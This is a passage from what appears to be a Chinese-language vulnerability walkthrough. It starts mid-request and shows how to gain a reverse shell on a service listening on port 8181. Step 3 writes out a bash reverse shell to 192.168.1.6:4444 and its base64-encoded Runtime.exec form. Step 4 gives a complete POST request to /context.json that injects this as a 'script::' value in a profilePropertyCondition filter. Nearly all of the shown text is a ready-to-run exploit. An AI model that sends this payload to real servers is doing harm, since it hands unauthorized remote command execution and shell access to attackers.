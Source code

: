 ```
                }
            ]
        }
    ],
    "sessionId": "test"
}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWuzS8qFKcNn3azAibnzrSWXquYGicD6mD48YrwDvpG1wqPslSickGLwNyQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWyhJyltvH2ynVKV9ruNOoNLWgEY72a9TU86HaDuIedUVs4evb0rdY3g/640?wx_fmt=png)

3. 可以使用此漏洞来反弹 shell，将 bash 反弹 shell 的命令进行编码，编码在线地址为 (http://www.jackson-t.ca/runtime-exec-payloads.html)

```
bash -i >& /dev/tcp/192.168.1.6/4444 0>&1
编码后为
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuNi80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}
```

4. 将编码后的 shell 添加到以下 poc 的执行系统命令的地方 ()

```
POST /context.json HTTP/1.1
Host: localhost:8181
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) 
Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 483

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"bash -c 
{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuNi80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```
